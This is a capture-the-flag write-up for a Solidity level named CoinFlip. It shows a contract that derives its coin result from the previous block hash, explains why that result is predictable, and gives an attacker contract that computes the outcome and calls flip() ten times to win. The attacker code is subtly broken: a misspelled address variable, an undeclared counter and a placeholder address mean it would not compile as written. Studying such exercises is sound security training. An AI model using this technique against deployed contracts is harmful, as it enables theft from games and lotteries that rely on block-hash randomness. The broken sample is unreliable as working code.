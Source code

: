 # **Level 3 -- CoinFlip**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
`````` 
---
## ***Objectives***
* Guess the correct answer 10 times in a row
---
## ***Thought Process***
It seems like the developer wants to use random number to decide the coin's side. However in Ethereum, the variables may look random but actually deterministic and can be exploited if the inputs are known. We will use this point to hack the contract.

This contract only has one function called `flip()`
``` ts
// This means we can not call this function in the same block more than once 
if (lastHash == blockValue) {
      revert();
    }
```
``` ts
uint256 blockValue = uint256(blockhash(block.number - 1));
lastHash = blockValue;
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```
We can see the coin's side is determined by the last block number & a constant named FACTOR. So we only need to create a contract which has same ways as this contract to caculate coin's side. 

---
## ***Solution***
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "../instances/Ilevel03.sol";

contract FlipHacker {
  address filp = xxxxxx;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flipHacker() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    CoinFlip(flip).flip(side);
  }
}
```
After deploying `FlipHacker` contract, we just need to call `flipHacker()` function 10 times in different blocks to compelete this level.



